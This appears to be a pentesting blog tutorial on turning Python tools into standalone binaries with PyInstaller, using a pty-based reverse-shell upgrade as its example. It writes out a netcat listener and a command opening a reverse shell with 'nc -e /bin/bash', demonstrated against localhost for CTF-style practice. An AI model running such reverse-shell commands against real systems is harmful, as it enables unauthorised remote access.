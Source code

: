 ```yaml
---
title: "Tutorial: Create Binary Versions of Python Tools"
date: 2020-11-07T15:34:30-04:00
categories:
  - tutorial
tags:
  - python
  - pentesting
  - tools
  - linux
  - windows
---
```


With **PyInstaller** you can create stand-alone binaries that run on machines that do not have Python installed.

On Linux it will create an executable ELF binary.  
On Windows it creates a PE32 or PE32+ exe.  

This created binary will include the python interpreter, so the minimum file size for a 64bit ELF binary is around 4 MB and the Windows equivalent is around 7 MB. 


## Cross-Compiling

Here comes the bad news, there is no cross-compiling build-in.  
If you want to create Windows binaries, then you will have to do so on Windows and the same is true for Linux.  

Also please note that it **does** matter whether you use the 32bit or 64bit version of the Python interpreter. Using the 64bit Linux interpreter results in a 64bit ELF binary.

But I assume you have some VM's lying around that can be used.  
[Wine might also work](https://stackoverflow.com/a/35605479), but I have not tried that.


## Install

On linux you can just use `pip3 install PyInstaller` or `pip install PyInstaller` for the 2.7 version.

On Windows you can also use `python.exe -m pip install PyInstaller`.

I will use the 3+ version of Python for the following examples. But the process should be the same regardless of what version you use. Just make sure the Interpreter you use for compiling the binary is the same one the script would use.


## Example: Upgrade a Linux Reverse Shell

If you have done CTF's or network pentesting, then you have probably encountered this python snippet before: 

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

This spawns a fully interactive pseudo-terminal that allows you to run commands such as `su` or `sudo`, which can be pretty handy if you are stuck with a semi-interactive reverse shell.

There are other ways to spawn a fully-interactive shell besides python, but this will do as a simple example.

Let's create a standalone-binary version of this snippet.

First create a python script file `upgrade.py`:
```python
#!/usr/bin/env python3
import pty
pty.spawn("/bin/bash")
```

Use the following command in order to create a pyinstaller binary:

```bash
pyinstaller --onefile upgrade.py
```

The `--onefile` parameter tells pyinstaller that all libraries should be packed into the binary.

If this finishes successfully, then you will find the created binary in the /dist subfolder.

### Does It Work?

Make sure the created `upgrade` binary is executable (`chmod +x upgrade`).

Listen for a shell with netcat:

```bash
nc -vlnp 4455
```

We will simulate a reverse shell as user www-data using sudo.  
This of course assumes you have such a user on your system and the required sudo permissions.  

Do this in a second shell:
```bash
sudo -u www-data bash -c "/usr/bin/nc localhost 4455 -e /bin/bash"
```

In the first terminal you will receive the semi-interactive netcat reverse shell (added new lines for clarity):

```bash
$ nc -vlnp 4455
listening on [any] 4455 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 33470

whoami
www-data

tty
not a tty

ls -l
total 4000
-rwxr-xr-x 1 kali kali 4092904 Jan 15 19:42 upgrade
```

Run our binary:

```bash
./upgrade
www-data@kali:/tmp/upgrade/dist$ tty
tty
/dev/pts/2
www-data@kali:/tmp/upgrade/dist$ 
www-data@kali:/tmp/upgrade/dist$ su kali
su kali
Password: hunter2

kali@kali:/tmp/upgrade/dist$
```

The `tty` command confirms our upgraded shell counts as a terminal. You should be able to execute interactive commands like `su` now.